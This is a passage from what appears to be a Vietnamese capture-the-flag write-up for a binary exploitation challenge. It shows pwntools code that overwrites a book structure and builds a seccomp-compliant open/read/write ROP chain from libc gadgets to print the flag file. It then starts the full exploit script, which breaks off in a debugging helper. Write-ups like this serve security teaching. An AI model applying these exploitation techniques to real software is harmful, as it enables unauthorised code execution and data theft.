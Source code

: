 ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/75df207d-5e9a-4706-a781-0828a4e71cd4)

### ROP

- Do có seccomp nên không ret2libc, one_gadget cũng có vẽ không được nên ta sẽ mở đọc flag và in ra, ta chỉ cần đưa vào vùng có quyền ghi và đọc là được.

```python
book_start = 0x004040e0

fake_book2 = p64(0x200) + p64(ret)  # size=0x200 & ptr=saved_rip
bss_payload = payload + fake_book2 + b"./flag\0" # dua flag vao rw_section
# writes to secret_msg. book[1] now has ptr=saved_rip & size=0x200. book[2] now equals flag path.
edit(1, bss_payload)
POP_RDI = p64(libc.address + 0x001bc021)
POP_RSI = p64(libc.address + 0x001bb317)
POP_RDX_RBX = p64(libc.address + 0x00175548)
POP_RAX = p64(libc.address + 0x001284f0)
SYSCALL = p64(libc.address + 0x00140ffb)

flag_where = book_start + 0x10 * 10  # buffer to read the flag file into
payload = flat(
    # open("/flag", 0)
    POP_RAX, 2,
    POP_RDI, book_start + 0x10 * 2,
    POP_RSI, 0,
    SYSCALL,

    # read(3, flag_where, 0x50)
    POP_RAX, 0,
    POP_RDI, 3,
    POP_RSI, flag_where,
    POP_RDX_RBX, 0x50, 0,
    SYSCALL,

    # write(1, flag_where, 0x50)
    POP_RAX, 1,
    POP_RDI, 1,
    SYSCALL,
    # 0x0000000000401b88
)
edit(2, payload)
```

## Kết quả

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/a932ac7f-1297-42f4-a490-03dda82df910)

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chall_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
                # b*0x0000000000401b5b
                # b*0x00000000004016da
                # b*0x000000000040175c
```